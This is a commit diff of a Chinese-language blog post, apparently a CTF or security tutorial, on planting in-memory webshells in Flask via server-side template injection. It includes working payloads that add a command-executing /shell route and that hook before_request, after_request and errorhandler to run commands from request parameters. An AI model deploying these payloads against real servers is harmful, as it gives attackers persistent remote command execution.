

Before and after one commit to Thr2on1/thr2on1.github.io, a plain HTML site: page 2025/05/29/Flask无回显RCE/index.html in a window 1280 px wide. Shown: the part 160-2325 px from the top of the page at 72% size, without its empty margins (240-1023 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; some packages are replaced by stand-ins of ours; a script that the page names is missing; a web font is replaced by a local one.

Commit message:
Site updated: 2025-05-29 17:14:02

```diff
--- a/2025/05/29/Flask无回显RCE/index.html
+++ b/2025/05/29/Flask无回显RCE/index.html
@@ -14,10 +14,10 @@
 <meta property="og:description" content="debug模式如果程序开启了debug模式，那么一般是要计算pin值，计算出pin值就很简单了。 非debug模式0x01 旧版内存马低版本的flask(ssti)一般可以直接使用以下payload： 1url_for.__globals__[&#x27;__builtins__&#x27;][&#x27;eval&#x27;](&quot;app.add_url_rule(&#x27;&#x2F;shel">
 <meta property="og:locale" content="zh_CN">
 <meta property="article:published_time" content="2025-05-29T08:48:51.000Z">
-<meta property="article:modified_time" content="2025-05-29T08:57:52.128Z">
+<meta property="article:modified_time" content="2025-05-29T09:13:31.124Z">
 <meta property="article:author" content="Thr2on1">
+<meta property="article:tag" content="WEB">
 <meta property="article:tag" content="Flask">
-<meta property="article:tag" content="WEB">
 <meta name="twitter:card" content="summary">
 
 
@@ -116,7 +116,7 @@
 
 
       <div id="toc">
-        <ol class="toc"><li class="toc-item toc-level-1"><a class="toc-link" href="#debug%E6%A8%A1%E5%BC%8F"><span class="toc-number">1.</span> <span class="toc-text">debug模式</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#%E9%9D%9Edebug%E6%A8%A1%E5%BC%8F"><span class="toc-number">2.</span> <span class="toc-text">非debug模式</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#0x01-%E6%97%A7%E7%89%88%E5%86%85%E5%AD%98%E9%A9%AC"><span class="toc-number">2.0.1.</span> <span class="toc-text">0x01 旧版内存马</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#0x02-%E6%96%B0%E7%89%88%E5%86%85%E5%AD%98%E9%A9%AC"><span class="toc-number">2.0.2.</span> <span class="toc-text">0x02 新版内存马</span></a></li></ol></li></ol></li></ol>
+        <ol class="toc"><li class="toc-item toc-level-2"><a class="toc-link" href="#debug%E6%A8%A1%E5%BC%8F"><span class="toc-number">1.</span> <span class="toc-text">debug模式</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E9%9D%9Edebug%E6%A8%A1%E5%BC%8F"><span class="toc-number">2.</span> <span class="toc-text">非debug模式</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#0x01-%E6%97%A7%E7%89%88%E5%86%85%E5%AD%98%E9%A9%AC"><span class="toc-number">2.1.</span> <span class="toc-text">0x01 旧版内存马</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#0x02-%E6%96%B0%E7%89%88%E5%86%85%E5%AD%98%E9%A9%AC"><span class="toc-number">2.2.</span> <span class="toc-text">0x02 新版内存马</span></a></li></ol></li></ol>
       </div>
 
   </span>
@@ -166,25 +166,30 @@
 
 
   <div class="content e-content" itemprop="articleBody">
-    <h1 id="debug模式"><a href="#debug模式" class="headerlink" title="debug模式"></a>debug模式</h1><p>如果程序开启了debug模式，那么一般是要计算pin值，计算出pin值就很简单了。</p>
-<h1 id="非debug模式"><a href="#非debug模式" class="headerlink" title="非debug模式"></a>非debug模式</h1><h3 id="0x01-旧版内存马"><a href="#0x01-旧版内存马" class="headerlink" title="0x01 旧版内存马"></a>0x01 旧版内存马</h3><p>低版本的flask(ssti)一般可以直接使用以下payload：</p>
+    <h2 id="debug模式"><a href="#debug模式" class="headerlink" title="debug模式"></a>debug模式</h2><p>如果程序开启了debug模式，那么一般是要计算pin值，计算出pin值就很简单了。</p>
+<h2 id="非debug模式"><a href="#非debug模式" class="headerlink" title="非debug模式"></a>非debug模式</h2><h3 id="0x01-旧版内存马"><a href="#0x01-旧版内存马" class="headerlink" title="0x01 旧版内存马"></a>0x01 旧版内存马</h3><p>低版本的flask(ssti)一般可以直接使用以下payload：</p>
 <figure class="highlight plaintext"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">url_for.__globals__[&#x27;__builtins__&#x27;][&#x27;eval&#x27;](&quot;app.add_url_rule(&#x27;/shell&#x27;, &#x27;shell&#x27;, lambda :__import__(&#x27;os&#x27;).popen(_request_ctx_stack.top.request.args.get(&#x27;cmd&#x27;, &#x27;whoami&#x27;)).read())&quot;,&#123;&#x27;_request_ctx_stack&#x27;:url_for.__globals__[&#x27;_request_ctx_stack&#x27;],&#x27;app&#x27;:url_for.__globals__[&#x27;current_app&#x27;]&#125;)</span><br></pre></td></tr></table></figure>
-<p><strong>原理</strong>:<br>第一行利用url_for函数作为入口点获取了当前命名空间的__builtins__模块，然后调用eval函数。<br>这个eval传入了两个参数，看第二个</p>
+<p><strong>原理</strong>:</p>
+<p>第一行利用url_for函数作为入口点获取了当前命名空间的__builtins__模块，然后调用eval函数。<br>这个eval传入了两个参数，看第二个</p>
 <figure class="highlight plaintext"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">&#123;</span><br><span class="line">    &#x27;_request_ctx_stack&#x27;:url_for.__globals__[&#x27;_request_ctx_stack&#x27;],</span><br><span class="line">    &#x27;app&#x27;:url_for.__globals__[&#x27;current_app&#x27;]</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
 <p>这里需要介绍一下eval的第二个参数：<br>eval的第二个参数允许传入一个字典，一般是用来指定表达式执行的<strong>全局变量命名空间（globals）</strong><br>接下来再去理解第二个参数中传入的值就很好了。<br><code>_request_ctx_stack</code>是一个请求上下文栈。请求上下文是指在处理HTTP请求的过程中，Flask创建的一个临时环境，用来存储和管理与当前请求相关的信息<br><code>url_for.__globals__[&#39;current_app&#39;]</code>是当前运行的app。<br>然后看一下执行的代码</p>
 <figure class="highlight plaintext"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">&quot;app.add_url_rule(</span><br><span class="line">        &#x27;/shell&#x27;, </span><br><span class="line">        &#x27;shell&#x27;, </span><br><span class="line">        lambda :__import__(&#x27;os&#x27;).popen(_request_ctx_stack.top.request.args.get(&#x27;cmd&#x27;, &#x27;whoami&#x27;)).read())&quot;</span><br></pre></td></tr></table></figure>
 <p>app.add_url_rule()是一个可以用来动态的添加路由的方法，我们可以通过这个方法动态的添加一个路由，其中我们可以通过匿名函数来处理这个路由的请求。<br>为了获取我们注入的命令，我们还需要当前HTTP请求的request对象，这也就是我们一开始要获取<code>_request_ctx_stack</code>的原因。在这个栈里，栈顶元素_request_ctx_stack.top自然就是我们当前请求的上下文，其中包含request对象，于是我们就可以获取当前请求GET传参的值，进而执行我们传入的命令。</p>
 <h3 id="0x02-新版内存马"><a href="#0x02-新版内存马" class="headerlink" title="0x02 新版内存马"></a>0x02 新版内存马</h3><p>比较新的flask版本，不允许我们在运行app的时候调用它的add_url_rule函数。<br>在阅读了大佬们写的文章后，我得知了可以使用flask自带的钩子函数，来达到注入内存马的目的。</p>
-<p><strong>before_request</strong><br>before_request()是Flask下的一个解释器，服务端在处理请求之前会调用before_request所设置的回调函数对请求进行预处理，比如说，身份验证、权限检查等。<br>我们可以通过调用app.before_request_funcs.setdefault()函数来为我们的before_request设置处理函数，在SSTI的过程中我们需要获取到eval函数或者exec函数都可以插入内存马。<br>payload:</p>
+<p><strong>before_request</strong></p>
+<p>before_request()是Flask下的一个解释器，服务端在处理请求之前会调用before_request所设置的回调函数对请求进行预处理，比如说，身份验证、权限检查等。<br>我们可以通过调用app.before_request_funcs.setdefault()函数来为我们的before_request设置处理函数，在SSTI的过程中我们需要获取到eval函数或者exec函数来插入内存马。<br>payload:</p>
 <figure class="highlight plaintext"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">__import__(&#x27;sys&#x27;).modules[&#x27;__main__&#x27;].__dict__[&#x27;app&#x27;].before_request_funcs.setdefault(None,[]).append(lambda :__import__(&#x27;os&#x27;).popen(&#x27;whoami&#x27;).read())</span><br></pre></td></tr></table></figure>
 <p>跟旧版的一样，我们需要先获取上下文。<br>因此在eval执行命令的时候我们可以使用:</p>
 <figure class="highlight plaintext"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">app.before_request_funcs.setdefault(None,[]).append(lambda :__import__(&#x27;os&#x27;).popen(&#x27;whoami&#x27;).read()),&#123;&#x27;app&#x27;:url_for.__globals__[&#x27;current_app&#x27;]&#125;</span><br></pre></td></tr></table></figure>
 <p>但是原内容会被before_request的返回内容覆盖，我们可以使用after_request解决这个问题。</p>
-<p><strong>after_request</strong><br>先看以下函数介绍：<br>![[Pasted image 20250417093253.png]]<br>这个解释器要求我们接收一个response对象，并且返回一个response对象。因此我们在定义匿名函数的时候需要设置一个参数(默认为respose类型)<br>payload:</p>
+<p><strong>after_request</strong></p>
+<p>先看以下函数介绍：<br>![[Pasted image 20250417093253.png]]<br>这个解释器要求我们接收一个response对象，并且返回一个response对象。因此我们在定义匿名函数的时候需要设置一个参数(默认为respose类型)<br>payload:</p>
 <figure class="highlight plaintext"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">app.after_request_funcs.setdefault(None,[]).append(lambda resp: make_response(__import__(&#x27;os&#x27;).popen(request.args.get(&#x27;cmd&#x27;)).read()) if request.args.get(&#x27;cmd&#x27;) else resp)</span><br></pre></td></tr></table></figure>
 <p>SSTI中用法跟before_request一样。</p>
-<p><strong>teardown_request</strong><br>跟after_request用法一模一样，但是没有回显。</p>
-<p><strong>errorhandler</strong><br>errorhandler装饰器允许我们自定义报错界面<br>比如：</p>
+<p><strong>teardown_request</strong></p>
+<p>跟after_request用法一模一样，但是没有回显。</p>
+<p><strong>errorhandler</strong></p>
+<p>errorhandler装饰器允许我们自定义报错界面<br>比如：</p>
 <figure class="highlight plaintext"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">@app.errorhandler(404)</span><br><span class="line">def error():</span><br><span class="line">	return &quot;404!!!&quot;</span><br></pre></td></tr></table></figure>
 <p>通过errorhandler绑定一个钩子函数，然后HTTP状态码为404时就调用我们自定义的函数，那么我们就可以加以利用。<br>payload：</p>
 <figure class="highlight plaintext"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">exec(&quot;global exc_class;global code;exc_class, code = app._get_exc_class_and_code(404);app.error_handler_spec[None][code][exc_class] = lambda a:__import__(&#x27;os&#x27;).popen(request.args.get(&#x27;gxngxngxn&#x27;)).read()&quot;)</span><br></pre></td></tr></table></figure>
@@ -220,7 +225,7 @@
 
 
       <div id="toc-footer" style="display: none">
-        <ol class="toc"><li class="toc-item toc-level-1"><a class="toc-link" href="#debug%E6%A8%A1%E5%BC%8F"><span class="toc-number">1.</span> <span class="toc-text">debug模式</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#%E9%9D%9Edebug%E6%A8%A1%E5%BC%8F"><span class="toc-number">2.</span> <span class="toc-text">非debug模式</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#0x01-%E6%97%A7%E7%89%88%E5%86%85%E5%AD%98%E9%A9%AC"><span class="toc-number">2.0.1.</span> <span class="toc-text">0x01 旧版内存马</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#0x02-%E6%96%B0%E7%89%88%E5%86%85%E5%AD%98%E9%A9%AC"><span class="toc-number">2.0.2.</span> <span class="toc-text">0x02 新版内存马</span></a></li></ol></li></ol></li></ol>
+        <ol class="toc"><li class="toc-item toc-level-2"><a class="toc-link" href="#debug%E6%A8%A1%E5%BC%8F"><span class="toc-number">1.</span> <span class="toc-text">debug模式</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E9%9D%9Edebug%E6%A8%A1%E5%BC%8F"><span class="toc-number">2.</span> <span class="toc-text">非debug模式</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#0x01-%E6%97%A7%E7%89%88%E5%86%85%E5%AD%98%E9%A9%AC"><span class="toc-number">2.1.</span> <span class="toc-text">0x01 旧版内存马</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#0x02-%E6%96%B0%E7%89%88%E5%86%85%E5%AD%98%E9%A9%AC"><span class="toc-number">2.2.</span> <span class="toc-text">0x02 新版内存马</span></a></li></ol></li></ol>
       </div>
 
 
```
